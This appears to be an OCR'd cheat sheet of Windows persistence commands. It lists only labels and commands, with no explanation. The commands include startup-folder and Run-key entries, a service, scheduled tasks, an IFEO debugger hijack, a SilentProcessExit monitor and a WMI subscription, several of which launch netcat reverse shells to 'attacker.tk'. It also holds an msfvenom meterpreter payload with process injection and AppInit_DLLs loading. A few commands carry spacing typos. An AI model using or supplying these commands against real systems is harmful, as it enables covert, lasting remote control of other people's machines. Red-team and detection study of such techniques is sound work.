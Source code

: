     `cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`<br>
    `cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"`<br>
    `cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"`<br>

- Service

    `cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto`<br>
    `cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000`<br>
    `cmd#> sc start persistence`<br>

- Tasks

    `cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888`<br>
    `cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"`<br>

- In MEMORY

    `msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999`<br>
    `cmd$> inject_windows.exe PID meter32.bin`<br>

- Debugger

    `cmd#> copy calc.exe _calc.exe`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f`

- Gflags

    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"`

- WMI

    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT - FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`<br>
    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"`<br>
    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""`<br>

- AppInit

    `cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f`<br>
    `cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f`<br>
    `cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f`<br>
